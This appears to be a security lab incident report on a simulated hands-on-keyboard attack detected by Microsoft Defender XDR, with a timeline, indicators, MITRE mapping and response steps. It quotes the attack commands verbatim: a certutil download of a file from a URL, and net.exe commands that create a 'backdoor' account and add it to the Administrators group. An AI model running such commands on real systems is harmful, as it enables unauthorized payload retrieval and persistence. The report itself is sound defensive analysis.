# XDR Multi-Alert Correlation Investigation Report

## Overview

| Field | Details |
|---|---|
| **Timeline** | July 10–12, 2026 |
| **Analyst** | Olatunji Abel |
| **Platform** | Microsoft Defender XDR, Microsoft Defender for Endpoint, Microsoft Sentinel |
| **Device** | win-5l3oittdjlp (Windows Server 2022) |
| **User** | WIN-5L3OITTDJLP\Administrator |
| **Incident Title** | Hands-on keyboard attack was launched from a compromised account |
| **Incident ID** | 204 |
| **Severity** | High |
| **Status** | Active |
| **Verdict** | True Positive — Authorized Security Simulation |
| **Total Alerts** | 16 |
| **Indicator of Compromise** | Backdoor local account created and escalated to local Administrators group via net.exe; eicar.com file created at C:\Temp\eicar.com via powershell.exe |
| **Indicator of Attack** | LOLBin abuse via certutil.exe (-urlcache -split -f) to download eicar.txt on July 10, followed by a reconnaissance-to-persistence sequence (whoami, net user enumeration, tasklist, ipconfig, backdoor account creation and privilege escalation) on July 12 |

---

## Executive Summary

This incident involved a hands-on-keyboard attack launched from a compromised administrator account on endpoint win-5l3oittdjlp. A total of 16 alerts were generated and correlated by Microsoft Defender XDR into a single incident. The attack began on July 10, 2026, 12:24:11 PM, when certutil.exe was invoked via a PowerShell process (PID 2380) to download a file from a GitHub raw content URL — this was blocked as Trojan:Win32/Ceprolad.A. The same PowerShell process then created a file named eicar.com, which was detected and quarantined as Virus:DOS/EICAR_Test_File. Two days later, on July 12, 2026, the same compromised account ran a reconnaissance sequence (whoami, net user enumeration, tasklist, ipconfig) followed by creation and privilege escalation of a backdoor local account. Identity compromise and privilege escalation were observed, affecting one device and two users. All malicious activity was automatically remediated by XDR and Microsoft Defender for Endpoint.



---

## Reason for XDR Correlation

First of all, the incident titled "Hands-on keyboard attack was launched from a compromised account" shows the executioner of this attack was sitting directly and using the endpoint.

Furthermore, the alert story showed:

- Two processes
- Two users
- One endpoint — win-5l3oittdjlp

The alert story gave one very important detail to take note of: this attack started on July 10, 2026, and the last activity was July 12, 2026. All on the same endpoint.

The first alert under the attack story tab showed that MDE prevented the execution of a Trojan on the endpoint in a commandline ran by the Admin. This happened at 12:58pm.

On that same day, on that particular endpoint, within the same timeline "1pm" — PowerShell was used to create a file named eicar.com, file size 68 B. The eicar file was quarantined immediately as it displays the behaviour of a virus.

On July 12, 2 days after — a commandline was run by Admin: "whoami.exe" on the same endpoint device from July 10th, 2026. Tasklist.exe was ran as well, and ipconfig.exe subsequently.

This series of commands on the endpoint is not suspicious on its own — but what happened immediately after flagged it very suspicious, as net.exe was used to create a backdoor in commandline.

So this validates why the earlier commands were ran. Attackers love using legitimate commandline tools. The tasklist.exe when ran will show all running processes. Adversaries can run this sometimes to know the process running on the device at that moment, and see if any process can hinder whatever they want to achieve on the endpoint — then they will terminate it.

Net.exe when ran by adversary as well is used to gather information about the users and privileges available on that endpoint. This helps how they can move laterally.

Ipconfig.exe was used to see network configuration and all running network connectivity — helping adversary see how they can connect outbound if planning a C2 Beacon Attack.

It only makes sense for XDR to flag and correlate after all this commands was ran and a backdoor — which is a new user — was created on the endpoint.
All alerts was related to the same endpoint and was carried out by the same user hence the XDR correlation of events.

---

## Investigation Timeline

| Date / Time | Event |
|---|---|
| July 10, 2026 – 12:24 PM | First alert triggered: "Potential human-operated malicious activity" |
| July 10, 2026 – 12:58:49 PM | Defender for Endpoint blocked execution of Trojan:Win32/Ceprolad.A — command line: certutil.exe -urlcache -split -f https://raw.githubusercontent.com/[test-repo]/eicar.txt eicar.txt, run under powershell.exe (PID 2380) — Remediation: Remove, Success |
| July 10, 2026 – 1:00:36 PM | Same powershell.exe process (PID 2380) created eicar.com (68 B) at C:\Temp\eicar.com |
| July 10, 2026 – 1:00:42 PM | eicar.com quarantined by Windows Defender Antivirus — Threat: Virus:DOS/EICAR_Test_File — Remediation: Quarantine, Success |
| July 12, 2026 – 9:19:01 AM | whoami.exe executed by Administrator |
| July 12, 2026 – 9:48:48 AM | "whoami.exe" /all executed by Administrator |
| July 12, 2026 – 9:48:58 AM | "net.exe" user executed by Administrator — local account enumeration |
| July 12, 2026 – 9:49:08 AM | tasklist.exe executed by Administrator |
| July 12, 2026 – 9:49:23 AM | "ipconfig.exe" /all executed by Administrator |
| July 12, 2026 – 9:49:35 AM | "net.exe" user backdoor ******** /add — backdoor local account created |
| July 12, 2026 – 9:49:44 AM | "net.exe" localgroup administrators backdoor /add — backdoor account escalated to local Administrators group |
| July 12, 2026 | Backdoor account remediated automatically by XDR and MDE; MDE policy prevented the account from accessing other endpoints onboarded on MDE |

**Certutil blocked execution (12:58:49 PM):**


**Remediation action on the Trojan download (Remove, Success):**


**eicar.com file creation confirmed via DeviceFileEvents (1:00:36 PM):**


**powershell.exe process detail showing eicar.com created, SHA1, VirusTotal ratio:**


**eicar.com quarantined by Windows Defender Antivirus (1:00:42 PM):**


**Advanced Hunting query showing the full July 12 command sequence (whoami, net user, tasklist, ipconfig, net user backdoor, net localgroup):**


**Backdoor account creation — net.exe (PID 14096), 9:49:34/35 AM:**


**Backdoor privilege escalation — net.exe (PID 10844), 9:49:43/44 AM:**


---

## Indicators of Attack (IOA)

- **certutil.exe LOLBin abuse** — invoked via PowerShell (PID 2380) with -urlcache -split -f to download eicar.txt from a GitHub raw content URL, taking advantage of a trusted Windows binary rather than a custom tool — a standard adversary technique to evade detection
- **whoami.exe execution (x2)** — run once early (9:19:01 AM) and again immediately before the main sequence (9:48:48 AM, with /all) — used by adversary to confirm identity/context of the compromised account
- **net.exe user (enumeration)** — run at 9:48:58 AM with no target account specified, indicating the adversary was checking existing local accounts before creating a new one
- **tasklist.exe execution** — used to enumerate running processes; adversaries use this to check whether any process could interfere with their objective, and terminate it if needed
- **ipconfig.exe /all execution** — used to review network configuration and connectivity, helping the adversary assess outbound connectivity for a potential C2 beacon
- **Sequenced recon-to-persistence behavior** — the tight sequence (whoami → account enumeration → tasklist → ipconfig → account creation → privilege escalation, all within roughly 45 seconds) is consistent with a scripted or rehearsed attacker playbook rather than exploratory behavior

---

## Indicators of Compromise (IOC)

**Evidence and Response tab — all 5 confirmed evidence items:**


- Local user account named "backdoor" created via net.exe — command: "net.exe" user backdoor ******** /add — executed Jul 12, 2026, 9:49:35 AM
- Backdoor account escalated to local Administrators group via net.exe — command: "net.exe" localgroup administrators backdoor /add — executed Jul 12, 2026, 9:49:44 AM (9 seconds after account creation)
- eicar.com file (68 B) created via powershell.exe (PID 2380) at C:\Temp\eicar.com — Jul 10, 2026, 1:00:36 PM — SHA1: 3395856ce81f2b7382dee72602f798b642f14140 — VirusTotal detection ratio 66/68 — quarantined as Virus:DOS/EICAR_Test_File
- Trojan:Win32/Ceprolad.A — blocked before execution via certutil.exe run under the same powershell.exe process (PID 2380), Jul 10, 2026, 12:58:49 PM
- Second malicious PowerShell.exe execution (PID 13672) — bare invocation, no visible payload in command line, Blocked, execution time Jul 12, 2026, 9:16:27 AM

**Second malicious PowerShell.exe detail (PID 13672):**


- Compromised Administrator account (win-5l3oittdjlp\Administrator) used as the access point for all observed activity

---

## MITRE ATT&CK Mapping

| Tactic | Technique ID | Technique Name | Evidence |
|---|---|---|---|
| Defense Evasion | T1218.010 | System Binary Proxy Execution: Certutil | certutil.exe used via PowerShell to download eicar.txt |
| Discovery | T1033 | System Owner/User Discovery | whoami.exe executed twice (9:19:01 AM, 9:48:48 AM) |
| Discovery | T1087.001 | Account Discovery: Local Account | "net.exe" user executed at 9:48:58 AM to enumerate local accounts |
| Discovery | T1057 | Process Discovery | tasklist.exe executed at 9:49:08 AM |
| Discovery | T1016 | System Network Configuration Discovery | ipconfig.exe /all executed at 9:49:23 AM |
| Persistence | T1136.001 | Create Account: Local Account | net.exe used to create "backdoor" local account at 9:49:35 AM |
| Privilege Escalation | T1078.003 | Valid Accounts: Local Accounts | "backdoor" account added to local Administrators group at 9:49:44 AM |

**MITRE ATT&CK Navigator heatmap:**


---

## Detection Strategy
*(Not yet written — needs your input)*

---

## Business Impact
*(Not yet written — needs your input)*

---

## Incident Response Procedure

The following outlines the incident response procedure that would be followed for this incident type, building on the automated remediation already performed by XDR and MDE. This section documents recommended manual response steps an analyst would take, rather than actions already executed in this lab environment.

### 1. Alert Validation and Investigation

The first step was to validate the alerts generated by Microsoft Defender XDR by reviewing the incident page, alert story, incident graph, timeline, and affected entities.

The investigation focused on confirming:

- The affected device: `win-5l3oittdjlp`
- The compromised user account: `Administrator`
- The processes and command lines executed
- The relationship between the 16 alerts correlated into a single incident

Advanced Hunting queries, Alert-story, Incident graph, Timeline were used to validate:

- Suspicious PowerShell execution
- Certutil abuse
- Local account creation
- Privilege escalation activity
- User and device activity timeline

The investigation confirmed malicious activity due to the sequence of reconnaissance commands followed by the creation of a privileged backdoor account.

### 2. Device Containment

Because the endpoint generated multiple alerts that were correlated into a single incident, and the investigation confirmed the creation of a backdoor administrative account, the affected device would require immediate containment.

Containment actions:

- Isolate `win-5l3oittdjlp` from the network using Microsoft Defender for Endpoint.
- Prevent further communication between the compromised endpoint and other systems.
- Block potential lateral movement attempts from the affected device.

Device isolation limits the attacker's ability to execute additional commands, maintain persistence, or access other resources within the environment.

### 3. Account Remediation

The compromised Administrator account should be investigated and secured, since it was used to execute the malicious activity.

Remediation actions:

- Reset the password of the compromised Administrator account.
- Revoke active sessions associated with the compromised account.
- Review the permissions assigned to the account.
- Disable the unauthorized local account created by the attacker and remove it from the local Administrators group.

These actions prevent the attacker from maintaining privileged access to the endpoint.

### 4. Malware and Artifact Removal

The endpoint should be reviewed to confirm that malicious artifacts have been fully removed.

Actions performed/verified:

- Verify that the EICAR file located at C:\Temp\eicar.com was successfully quarantined by Microsoft Defender Antivirus.
- Confirm the remediation status of the detected threats.
- Perform additional endpoint scans to identify any remaining malicious files, scripts, or persistence mechanisms.

### 5. Blast Radius Investigation

Microsoft Defender XDR and Microsoft Sentinel would be used to investigate the scope of the compromise.

The investigation focuses on:

- Checking whether the compromised Administrator account authenticated to other devices.
- Checking whether the created `backdoor` account appeared on other endpoints.
- Searching for additional suspicious PowerShell executions.
- Searching for similar certutil activity across the environment.
- Reviewing additional indicators of compromise.

Relevant data sources to investigate:

- `DeviceProcessEvents`
- `DeviceLogonEvents`
- `IdentityLogonEvents`
- `SecurityEvent`
- `SigninLogs`

The objective is to determine whether the attacker moved laterally or compromised additional systems.

### 6. Recovery and Monitoring

After successful containment and remediation:

- The affected endpoint would be returned to normal operation after validation.
- Microsoft Defender security controls would be confirmed as active.
- The endpoint and affected accounts would be monitored for recurring suspicious activity.
- Microsoft Defender recommendations would be reviewed to improve security posture.

Continuous monitoring would be maintained to detect any attempt by the attacker to regain access.

### 7. Escalation and Documentation

The incident would be escalated to the appropriate IT and Security Operations teams, with full documentation of findings, timeline, and remediation steps provided for record-keeping and post-incident review.
